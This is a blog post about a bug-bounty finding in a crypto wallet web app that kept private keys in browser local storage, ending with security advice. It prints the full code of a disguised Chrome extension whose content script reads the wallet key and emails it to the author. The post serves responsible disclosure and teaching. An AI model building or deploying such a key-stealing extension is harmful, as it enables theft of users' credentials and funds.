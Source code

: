 +++
title = "Accidentally found a vulnerability in a crypto wallet and made $1,000"
description = "On joining the community of one of the proof-of-stake blockchains and finding a client vulnerability in its wallet app."
date = 2023-08-05
draft = false

[taxonomies]
tags = ["security", "crypto", "bug-bounty"]

[extra]
keywords = "crypto, security, bug bounty, vulnerability"
toc = false
+++

In January 2022, I joined the community of one of the proof-of-stake blockchains.
To play with what the protocol and its ecosystem offered, I created a wallet account on
the official website `https://wallet.****.org`. Apart from general curiosity, I was interested in
how they achieved security in a browser, especially in the age of extensions and
client-side vulnerabilities.

It turned out that when a user logged in, the wallet application (built in React) generated a set
of public and private keys and stored them in the browser's local storage. With my experience of
building authentication and authorization in distributed systems, I knew this was not the best
thing to do – in general, it's easy for a browser extension and client-side code to read data
from local storage [^1].

To prove this, I decided to [write a simple extension for Chrome](https://developer.chrome.com/docs/extensions/mv3/getstarted/development-basics/) that would retrieve keys from a victim's browser and send them to my
anonymous email address.

The root directory of my pickpocket extension looked like this:

```bash
.
├── content.js
├── email.min.js
├── index.html
└── manifest.json
```

The main files are the `manifest.json` and `content.js`. The former is essential for installing the extension.

```json
{
  "name": "X Wallet Enhancement",
  "version": "1.0",
  "manifest_version": 3,
  "content_scripts": [
    {
      "matches": [
        "https://wallet.****.org/*"
      ],
      "js": [
        "email.min.js",
        "content.js"
      ]
    }
  ]
}
```

`email.min.js` is just a client library from one of the cloud services that allows you to send
email directly from a browser without any server code. `index.html` is a blank HTML page that
displays nothing. The wallet hijacking logic lived in the `content.js` file:

```javascript
emailjs.init('user_****'); // instantiating an email delivery service

let templateParams = {
    // gathering information about the victim's browser
    from_name: navigator.userAgent,
    // fetching wallet keys from the local storage
    storage: window.localStorage.getItem('_*:wallet:active_account_id_**'),
};

// using a prepared email template to send an email with keys
const serviceID = 'service_****';
const templateID = 'template_****';

emailjs.send(serviceID, templateID, templateParams)
 .then(() => {
    console.log("Wallet keys were send!");
 }, (err) => {
    console.error(JSON.stringify(err));
 });
```

Yes, such a dummy script.

I packed all four files into a zip archive and kindly asked my friend, who also had
a wallet at `https://wallet.***.org`, to install my creation in his browser
(pretending to do some social engineering). Before doing so, I told him about my findings and
the theory I was trying to prove. He was happy to help, and the public and private keys of
this wallet account appeared in my inbox a few seconds after the browser extension was installed.
Next, I saved the keys to local storage in my browser and opened the wallet website.

Surprisingly, my friend's crypto-wallet balance was available to me, along with an option to
withdraw the funds. During a Zoom call with my victim friend, I transferred some of his funds to
an anonymous account and back. It was mind-blowing! A new, promising blockchain that had recently
closed an investment round had a major vulnerability in its wallet. Worst of all, they had 2-factor
authentication for users. Of course, not many people would activate it right away, and many didn't.

As an ethical developer, I created a vulnerability report, including the source code of
the browser extension and my thoughts on how to improve the security of the web application.
It was sent directly to the security team's email address on 18th of January. A few days later,
I had a call with the CISO of the blockchain protocol, who assured me that they were aware of
the issue and would address it in the next release. I was a little disappointed with the speed of
the response to the incident. Two days is an eternity when one speaks about users' money.
Nevertheless, the blockchain developers granted me their tokens in an amount equivalent to 1,000 USDT.

<div class="callout callout-danger">
<strong>Advice for application developers</strong>: be aware of the technologies you use and their security aspects.
</div>

<div class="callout callout-warning">
<strong>Advice for crypto users</strong>: learn what security options an organisation offers to you,
activate two-factor authentication as soon as you create a wallet account, don't store all of
your funds in hot wallets.
</div>

---

[^1]: ## Worth reading

- [Is LocalStorage safe to use? | Snyk](https://snyk.io/blog/is-localstorage-safe-to-use/)
- [Please Stop Using Local Storage](https://www.rdegges.com/2018/please-stop-using-local-storage/)
- [Using HTTP cookies - HTTP | MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
- [HttpOnly | OWASP Foundation](https://owasp.org/www-community/HttpOnly)
